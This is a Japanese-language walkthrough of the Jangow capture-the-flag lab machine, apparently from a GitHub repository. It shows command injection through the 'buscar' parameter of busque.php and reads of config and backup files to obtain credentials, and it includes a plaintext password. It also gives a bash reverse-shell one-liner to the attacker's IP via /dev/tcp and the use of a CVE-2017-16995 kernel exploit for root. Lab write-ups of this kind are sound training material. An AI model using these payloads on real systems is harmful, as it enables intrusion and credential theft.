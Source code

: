 ## Jangow

### 準備
- `sudo apt install ufw`
- `sudo ufw status`
- `sudo ufw allow 443`

### 目的
- user.txt <- システム内
- root.txt <- root

### ポートスキャンまで同じ
- 環境変数に登録せずに/etc/hostsに登録する
  - `192.168.56.118  jangow.local` 
- 21,80
  - 22番ポートはcloseなので注意 

### webサイトを見る
- 色々なサイトを見て、リンクのパスにbuscarという気になるのがある
- サイトのコメントを見る
  - `curl http://jangow.local/site/ | grep "<\!-->"`

### buscarのサイトを見る
- `~.php?buscar=`これはコマンドが実行できるんではないか？実際、buscarでコマンドを実行できる
- `view-source:http://192.168.56.118/site/busque.php?buscar=ls -la`
- wordpressという気になるディレクトリがある
- `view-source:http://192.168.56.118/site/busque.php?buscar=ls wordpress -la`
- `view-source:http://192.168.56.118/site/busque.php?buscar=cat wordpress/config.php`
- パスワードとユーザ名がある

### ftpに接続する
- 取得したユーザとパスワードで接続するが失敗する

### パスワードの取得
- さらにサイトを巡回する、そこでまたユーザ名やパスワードをがある。webブラウザでもできるが、ここではコマンドで表示する
- `curl http://$IP/site/busque.php --get --data-urlencode "buscar=cat /var/www/html/.backup"`

### ftpに接続する
- 取得したユーザとパスワードで接続する
- サーバ内を探索する
- `bye`で抜ける


### bashのリバースシェルの確立
- ターミナルを開く
  - `nc -lvnp 443`

- 他のターミナルを開く
  - `curl http://jangow.local/site/busque.php --get --data-urlencode "buscar=/bin/bash -c 'bash -i >& /dev/tcp/ParrotOSのIP/443 0>&1'"`  

- ここでプロンプトが返ってくる

### TTYシェルの奪取

- `python3 -c 'import pty; pty.spawn("/bin/bash")'` 
- `su jangow01`
- パスワードの入力 `abygurl69`この`l`は`L`の小文字

### システムの探索
- ユーザホームでフラグを探す
 

### Linpeasを転送する
- ParrotOS側のターミナルで実行する
- `ftp $IP`
- ユーザ名がjangow01,パスワード
- `cd /home/jangow01`
- `put linpeas.sh`
- `ls`
- `bye`

### Linpeasで脆弱性を探す
- jangowのユーザで実行する
- `ls -la linpeas.sh`
- `chmod +x linpeas.sh`
- ./linpeas.sh > output
- Linpeasの表示にCVE-2017-16995があるのでネットで検索して、exploitをコードをコピーする

### Exploitを転送
- ParrotOSの新しいターミナルでする
- ParrotOS側
  - jangowのディレクトリでする 
  - `cat > 45010.c`さっきコピーしたのをペーストする
- `ftp $IP`
- `cd /home/jangow01`
- `put 45010.c`
- `bye`

### Exploitを実行
- リモートシェル先のjangowユーザでする
- `gcc 45010.c -o exploit`
- ./exploit  
- ルートが返ってくる
### フラグファイルを開く
- `id`
- `cd /root`
- `cat proof.txt`
